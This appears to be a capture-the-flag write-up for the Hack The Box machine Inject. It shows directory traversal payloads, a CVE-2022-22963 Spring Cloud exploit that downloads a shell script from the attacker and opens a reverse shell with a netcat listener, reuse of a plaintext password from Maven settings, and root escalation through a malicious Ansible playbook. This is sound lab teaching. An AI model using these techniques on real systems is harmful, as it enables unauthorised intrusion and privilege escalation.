

# Hack The Box Inject Writeup


Inject is an easy difficulty machine from Hack The Box. 

While playing this machine, we encounter concepts including arbitrary file reading, the Spring framework, and Ansible. 

# Enumeration

Let's begin with some reconnaissance. 

## Nmap

We begin by scanning the box with `nmap`. 

```bash
nmap -sC -sV TARGET-IP > scan.txt
```

After we let `nmap` run for a bit, we see the following results:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-12 23:00 NZDT
Nmap scan report for TARGET-IP
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.44 seconds
```

We can see that there are two ports open on the box:

- SSH on port 22
- Web application on port 8080

Let's go and take a look at the web app. 

## Web Application

It looks to be a website advertising a file hosting service.


Most of the links on the page don't actually go anywhere, though one does stand out. The `Upload` link looks like it could be promising. 

As expected, we're greeted with a file upload form. 


The first thing I would think to try is to upload some kind of web shell in an attempt to gain remote code execution on the box. The only issue with that approach is that the server restricts the type of file that can be uploaded to images. With that being the case, let's upload an image to see what the box does with it. 

### File Upload

After uploading the image, we're given a link that takes us to a page that displays the image back to us. Seems pretty straight forward. However, take a closer look at the URL of the page...

```
http://TARGET-IP:8080/show_image?img=test.jpeg
```

Notice that the name of the file is being included as a parameter (`img`) to tell the `show_image` page which image file it should display. When I see URLs like that, the first thing I do is try to mess with it. 

### Directory Traversal

Let's see if we can change the parameter so that the page displays a different file:

```
http://TARGET-IP:8080/show_image?img=../../../../../../../etc/passwd
```

This time we get something different back:

```
The image "http://TARGET-IP:8080/show_image?img=../../../../../../../etc/passwd" cannot be displayed because it contains errors. 
```

I've seen this error appear when a browser is attempting to display a non-image file as an image. To get around this, let's put our request through the Burp Repeater so that we can see the raw data of the response.



Look at that, we can read `/etc/passwd`! Now that we know we can read any file we want, we can abuse the `show_image` page to take a look around the file system. Let's see what is in the folder one level up from the `show_image` page. We can modify the request URL to the following to achieve this:

```
http://TARGET-IP:8080/show_image?img=../
```

We see the following directories listed:

```
java
resources
uploads
```

Looks like we're interacting with a web app written in Java. `uploads` is most likely going to be where our image files are going. Let's keep going up the file tree. After heading up a few more levels, we can see some other interesting files. 

```
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

### POM.xml

The important file to note here is `pom.xml`. This file is found inside projects that are built with Apache Maven. Maven is a build automation tool that is mostly used with Java projects, but can also be used for applications written in other languages too. In the context of Maven, `pom` stands for Project Object Model. The `pom.xml` file contains information about the project, its dependencies, and configuration information that Maven uses to build the project. Let's take a look at the POM. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

Here we can see the dependencies for the project. Note that the version numbers are also included. Let's put some of those package names and version numbers into Google and see if anything interesting comes back. 

## CVE-2022-22963

Googling `Spring Cloud 3.2.2` brings up results that describe a remote code execution bug in the Spring framework. Spring is an application framework used for building Java-based applications, and we know that our web app is built using Spring. In versions 3.2.2 and older, it is possible to send a crafted request to the vulnerable application that will result in remote code execution. This vulnerability was assigned the identifier `CVE-2022-22963`. 

There are plenty of public exploit scripts available on GitHub that can trigger this vulnerability. I used [this](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE) script from `randallbanner`. 

All we need to do is modify some of the values at the beginning of the script to suit our needs:

```python
# GLOBALS
## LOCAL
lhost = "YOUR-IP"
lport = 4444  # Port for listener
srvport = 8000  # Port to start HTTP Server
## REMOTE
rhost = "TARGET-IP"
rport = 8080
```

## Foothold

After setting the target and attacking IP addresses and ports, we need to start a listener on the same port as defined by `lport`. 

```
nc -lvnp 4444
listening on [any] 4444 ...
```

Now we can run the exploit script to gain a reverse shell. 

```
python3 spring-cloud-rce.py
[+] Serving on port 8000
[!] Press Ctrl+C to stop the server
[+] Creating shell.sh in current Directory...
[++] Done
[+] Sending shell to /dev/shm/shell.sh...
[++] Done
[+] Giving the server time to process... 
TARGET-IP - - [10/Dec/2023 23:12:37] "GET /shell.sh HTTP/1.1" 200 -
        z z z z z
        z z z z 
        z z z 
        z z 
        z 
[++] Countdown finished!
[+] Making the shell executable...
[++] Done
[+] Executing shell...
[+] Server stopped.
```

If we navigate to our listener, we can see that we have received a reverse shell as the `frank` user. Make sure that you upgrade your shell with the following command:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Privilege Escalation

Now that we've got a foothold on the system, let's take a look around. Our shell places us in the file system root (`/`). Upon opening up the `/home` directory, we see that there are two folders. 

```
frank@inject:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Feb  1  2023 .
drwxr-xr-x 18 root  root  4096 Feb  1  2023 ..
drwxr-xr-x  5 frank frank 4096 Feb  1  2023 frank
drwxr-xr-x  3 phil  phil  4096 Feb  1  2023 phil
```

We can see that the user flag is inside `phil`'s home directory. The only problem is that we can't read it since it is only readable by the `root` user, and the `phil` group. 

```
frank@inject:/home$ cd phil
frank@inject:/home/phil$ ls -la
total 24
drwxr-xr-x 3 phil phil 4096 Feb  1  2023 .
drwxr-xr-x 4 root root 4096 Feb  1  2023 ..
lrwxrwxrwx 1 root root    9 Feb  1  2023 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil 3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil 4096 Feb  1  2023 .cache
-rw-r--r-- 1 phil phil  807 Feb 25  2020 .profile
-rw-r----- 1 root phil   33 Dec  9 11:29 user.txt
frank@inject:/home/phil$ cat user.txt
cat: user.txt: Permission denied
frank@inject:/home/phil$ 
```

This means that we're going to have to become the `phil` user to get the flag. There doesn't appear to be any useful information in `phil`'s home directory, so let's go and see what we can find in `frank`'s. 

`frank`'s home looks very similar to `phil`'s, with one noticable difference. We can see that there are two extra directories: `.local` and `.m2`. These directories would be hidden to anyone using `ls` to list directories because they begin with a `.`. Using `ls -la` allows us to see everything in the current working directory. 

```
frank@inject:~$ ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1  2023 .
drwxr-xr-x 4 root  root  4096 Feb  1  2023 ..
lrwxrwxrwx 1 root  root     9 Jan 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1  2023 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1  2023 .local
drwx------ 2 frank frank 4096 Feb  1  2023 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
```

The `.profile` directory doesn't contain anything, but there is something interesting in the `.m2` directory. 

```
frank@inject:~/.m2$ ls -la
total 12
drwx------ 2 frank frank 4096 Feb  1  2023 .
drwxr-xr-x 5 frank frank 4096 Feb  1  2023 ..
-rw-r----- 1 root  frank  617 Jan 31  2023 settings.xml
```

Let's take a look at that `settings.xml` file. 

```xml
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

It looks like a configuration file, and we can see that there is a password in there: `DocPhillovestoInject123`. 

## Switching Users

Let's use the password that we found to switch to the `phil` user. 

```
frank@inject:~/.m2$ su phil
Password: 

phil@inject:/home/frank/.m2$ 
```

## User Flag

Now that we've become `phil`, we can go into his home directory and print out the user flag. 

## Root Flag

With the user flag owned, now we can go after root. 

Let's see if `phil` can run anything with `sudo`. 

```
phil@inject:/home/frank/.m2$ sudo -l
[sudo] password for phil: 

Sorry, user phil may not run sudo on localhost.
```

No luck there, so we'll have to keep digging. There is a directory inside of `/opt` that looks interesting:

```
phil@inject:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Oct 20  2022 .
drwxr-xr-x 18 root root 4096 Feb  1  2023 ..
drwxr-xr-x  3 root root 4096 Oct 20  2022 automation
phil@inject:/opt$ 
```

If we dig down into the directory, we find a file named `playbook_1.yml`. It's not immediately obvious what this file is or what it does, so we'll need to do some research. If we google around for `yml playbook` files, we can see that results for `Ansible` come up. 

### Ansible

Ansible is an open source automation tool that can automate various infrastructure related tasks such as changing network settings, provisioning databases etc. It does this using *`playbooks`*, which define the various tasks that need to be carried out. 

We have found a playbook on the box. It's owned by `root`, so it's likely that it is being run by `root`. We can confirm this using [pspy](https://github.com/DominicBreuker/pspy). 

After dropping `pspy` onto the box and letting it run for a bit, we can see the following line among the output:

```
2023/12/10 02:16:01 CMD: UID=0     PID=54840  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

There must be a cronjob owned by `root` that is periodically executing *all* `.yml` files in the `/opt/automation/tasks` directory with Ansible. We know that it is executing *all* `.yml` files because of the `*.yml` syntax. We can also see that the `tasks` directory that contains the playbook is writeable by the `root` user, and the `staff` group (of which `phil` is a member). 

```
phil@inject:~$ ls -la /opt/automation
total 12
drwxr-xr-x 3 root root  4096 Oct 20  2022 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
drwxrwxr-x 2 root staff 4096 Dec 10 08:54 tasks
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Based on the information we've gathered, we know that we can use a malicious Ansible playbook file to execute commands as `root`. To do this, we take a copy of the playbook that we found and modify it to include our own command to execute using the [shell](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html#examples) Ansible module. 

```yml
- hosts: localhost
  tasks:
  - name: muahahahaha
    shell: cat /root/root.txt > /home/phil/root.txt
```

We can now copy this playbook into the `/opt/automation/tasks` directory and wait for it to be executed. 

```bash
phil@inject:~$ cp evil.yml /opt/automation/tasks
```

This will place a copy of the flag in `phil`'s home directory. *Don't forget to remove the flag copy once you're done with it!*

Congratulations, you just pwned Inject!

# References

- [Spring CVE-2022-22963 Security Advisory](https://spring.io/security/cve-2022-22963)
- [CVE-2022-22963 Exploit](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE)
- [Ansible Documentation - Shell](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html#examples)